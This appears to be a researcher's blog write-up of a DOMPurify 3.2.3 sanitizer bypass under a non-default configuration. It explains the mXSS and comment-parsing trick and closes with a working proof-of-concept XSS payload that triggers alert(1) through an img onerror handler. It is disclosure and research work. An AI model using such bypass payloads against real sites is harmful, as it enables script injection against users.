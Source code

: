 ```yaml
---
title: DOMPurify 3.2.3 Bypass (Non-Default Config)
excerpt: A write up of a bypass in DOMPurify 3.2.3 I found
publishDate: 'Jan 29 2025'
tags:
  - Write Up
  - XSS
isFeatured: true
---
```


### Introduction

I found a bypass in DOMPurify which allows for sanitized HTML to cause XSS on the first day of the Chinese New Year! Here is how.

### Explanation
From looking at the previous few DOMPurify bypasses, a common theme can be spotted: the payloads are usually a combination of mXSS + comments in attribute values.

And if you take a look at `src/purify.ts` in DOMPurify, it does seem like cure53 have patched both comments and CDATA, or have they?

```js
/* Work around a security issue with comments inside attributes */
if (SAFE_FOR_XML && regExpTest(/((--!?|])>)|<\/(style|title)/i, value)) {
    _removeAttribute(name, currentNode);
    continue;
}
```

If we take a close look at the WHATWG HTML specification, we can see that comments not only come in the form of `<!-- ... -->` but also in `<! ... >` due to the [incorrectly opened comment exception](https://html.spec.whatwg.org/multipage/parsing.html#parse-error-incorrectly-opened-comment).

This on paper allows us to sneak comment end tags in attribute values if they are in the form of `<! ... >`... right?

If you have experience with mXSS, you might know that the it works because when comments are wrapped in a specific payload, it is treated as text in the first parsing(DOMPurify), but treated as a comment in the second parsing(browser).

However the payloads for mXSS require that the sneaked in comments be wrapped in `<style>` tags. Plus, DOMPurify removes all possible tags from text nodes, so the comment end tag must be in an attribute value.

But we want to achieve this... How?
`<style><! ... <a id='><img src onerror="alert(1)">'`

Another challenge presented is that we can't simultaneously have both comments and HTML elements in the `<style>` tag due to DOMPurify and how HTML works, so we can't "mutate" the anchor tag in.

At the bottom of the DOMPurify sanitize function, we see that there is a somewhat dangerous sanitization, replacing possible template expressions with spaces. This made me wonder, whether I could remove the closing style tag with this.

```js
    /* Sanitize final string template-safe */
    if (SAFE_FOR_TEMPLATES) {
      arrayForEach([MUSTACHE_EXPR, ERB_EXPR, TMPLIT_EXPR], (expr) => {
        serializedHTML = stringReplace(serializedHTML, expr, ' ');
      });
    }

return trustedTypesPolicy && RETURN_TRUSTED_TYPE
  ? trustedTypesPolicy.createHTML(serializedHTML)
  : serializedHTML;
};
```

Well turns out you can... Here is the full PoC.

### PoC
*mXSS portion taken from [Yaniv Nizry](https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/)*
```js
DOMPurify.sanitize(
  `<math><foo-test><mi><li><table><foo-test><li></li></foo-test><a>
      <style>
        <! \${
      </style>
      }
      <foo-b id="><img src onerror='alert(1)'>">hmm...</foo-b>
    </a></table></li></mi></foo-test></math>
  `,
  {
    SAFE_FOR_TEMPLATES: true,
    CUSTOM_ELEMENT_HANDLING: {
      tagNameCheck: /^foo-/,
    },
  }
);
```

### References
- https://github.com/cure53/DOMPurify/commit/d18ffcb554e0001748865da03ac75dd7829f0f02
- https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/